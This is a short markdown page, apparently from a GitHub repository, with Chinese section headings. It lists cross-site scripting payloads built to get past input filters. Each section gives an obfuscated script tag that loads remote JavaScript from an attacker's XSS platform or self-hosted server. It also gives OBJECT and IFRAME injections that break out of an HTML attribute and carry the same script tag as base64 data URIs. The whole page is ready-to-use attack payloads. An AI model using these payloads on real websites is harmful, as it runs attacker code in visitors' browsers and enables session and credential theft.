 ## payload-1 （利用 XSS 平台）

```html
  <SCRIPT /
SRC  
= 
  
HTTPS:XSS%2E%54%46/TOH>
</SCRIPT
 >
```


```html
"><OBJECT/DATA="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=
```

```html
"><IFRAME/SRC="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6WFNTJTJFJTU0JTQ2L1RPSD4KPC9TQ1JJUFQKID4=
```

------

## payload-2 （本地搭建 XSS 服务器）

```html
  <SCRIPT /
SRC  
= 
  
HTTPS:E.XP>
</SCRIPT
 >
```

```html
"><OBJECT/DATA="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=
```

```html
"><IFRAME/SRC="data:TEXT/HTML;BASE64,ICA8U0NSSVBUIC8KU1JDICAKPSAKICAKSFRUUFM6RS5YUD4KPC9TQ1JJUFQKID4=
```